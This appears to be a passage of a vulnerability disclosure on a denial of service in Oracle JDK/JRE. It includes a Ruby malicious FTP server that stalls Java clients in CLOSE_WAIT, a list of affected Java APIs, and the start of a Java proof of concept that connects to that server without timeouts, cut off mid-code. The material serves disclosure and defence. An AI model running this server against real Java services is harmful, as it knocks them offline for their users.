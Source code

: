 ftp_server = TCPServer.new 21

Thread.start do
loop do
 Thread.start(ftp_server.accept) do |ftp_client|
    puts "FTP. New client connected"
    ftp_client.puts("220 ftp-server")
    counter = 0
    loop {
        req = ftp_client.gets()
        break if req.nil?
        puts "< "+req

        if req.include? "USER"
            ftp_client.puts("331 password")
        else
            ftp_client.puts("230 Waiting data")
            counter = counter + 1
            if counter == 6
                abort
            end
        end
    }
    puts "Aborted..."
 end
end
end

loop do

sleep(50000)
end


When triggered, the DoS will result in a CLOSE_WAIT status on the connection between the target server and the FTP server (192.168.234.134), leaving the Java process thread stuck.



Oracle JDK/JRE Concurrency-Related Denial of Service
The vulnerable functions are:

java.io.InputStream
java.xml.ws.Service
javax.xml.validation.Schema
javax.xml.JAXBContext
java.net.JarURLConnection – The setConnectionTimeout and setReadTimeout are ignored
javax.imageio.ImageIO
Javax.swing.ImageIcon
javax.swing.text.html.StyleSheet


## java.io.InputStream Proof of Concept

```
import java.io.InputStream;
import java.net.URL;

public class RandomAccess {
 public static void main(String[] args) {
  try {
   //url = new URL ("ftp://maliciousftp:2121/test.xml");
   URL url = new URL("ftp://maliciousftp:2121/test.xml");
   InputStream inputStream = url.openStream();
   inputStream.read();
   //urlc.setReadTimeout(5000);
   //urlc.setConnectTimeout(5000); // <- this fixes the bug
  } catch (Exception e) {
```